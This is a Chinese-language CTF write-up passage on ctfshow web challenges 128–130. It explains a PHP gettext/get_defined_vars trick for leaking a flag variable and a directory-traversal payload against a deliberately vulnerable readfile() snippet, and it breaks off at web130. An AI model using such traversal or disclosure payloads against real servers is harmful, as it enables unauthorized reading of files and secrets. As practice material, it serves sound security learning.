 骚操作

```
小知识点： _()是一个函数

_()==gettext() 是gettext()的拓展函数，开启text扩展。需要php扩展目录下有php_gettext.dll

get_defined_vars()函数

get_defined_vars — 返回由所有已定义变量所组成的数组 这样可以获得 $flag

payload: ?f1=_&f2=get_defined_vars
```



#### web129

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-13 03:18:40

*/


error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['f'])){
    $f = $_GET['f'];
    if(stripos($f, 'ctfshow')>0){
        echo readfile($f);
    }
}
```

stripos() 函数查找字符串在另一字符串中第一次出现的位置

所以我们要考虑在ctfshow前面放点什么，但又不影响我们读文件

可以联想到目录穿越

payload:

```
/ctfshow/../../../../../../../../../../var/www/html/flag.php
```



#### web130

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-13 05:19:40

*/


```